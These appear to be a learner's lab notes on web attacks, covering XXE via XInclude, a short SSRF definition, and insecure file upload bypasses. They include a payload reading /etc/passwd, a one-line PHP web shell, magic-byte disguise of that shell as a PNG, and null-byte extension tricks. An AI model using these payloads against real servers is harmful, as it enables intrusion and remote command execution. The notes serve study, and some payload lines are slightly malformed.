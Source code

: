 **XXE via XInclude:**
- Payload:
	- `<foo xmlns:xi="http://www.w3.org/2001/xInclude">`
	- `xi:include parse="text" href="file:///etc/passwd"/>`
	- `</foo>`
	
**Using XXE to achieve SSRF:**
	- SSRF:
	- A vulnerability that allows us to induce the server-side application to make requests on our behalf.
	- For example, we might want to reach an internal endpoint that we don't have access to, but the application we are attacking can make the request instead.


## Insecure File Upload:

**Insecure File Upload - Basic Bypass:**

Through this vulnerability, we can upload a file with malicious code and execute it remotely, to get a shell or any other command.

- We can use php command, {<?php system($_GET['cmd']); ?> } to provide parameters to the php file, with cmd = and the system will execute it
- After the file is uploaded, we can find the path, were it is stored and run the php file and provide the value for the parameter cmd:
	- `http://localhost/labs/uploads/cmd.php?cmd=whoami`
	
 **Insecure File Upload - Magic Bytes:**
 
- https://www.thehacker.recipes/web/inputs/null-byte-injection (null byte attack)

- We can check the magic bytes of a file, using the command:
	- `file logo.png` or `head logo.png`
- In this attack, we keep the starting magic bytes of an png file and attach the php script for example:
	- PNG .....magic bytes data {<?php system($_GET['cmd']); ?>}
	- As the application is checking with the magic bytes to determine the file type, we will be using this technic to bypass the upload check, and uploading as a php file
- If the checks is being done using the file extension we provide in the filename, we can use the null byte attack to skip the extension
	- `malicious.php%00.pdf`
- We can use other php extensions, if the application is blocking only php, rather than only allowing jpg and png, we can google 'vaild php file extensions' and use of that and see if the upload still works

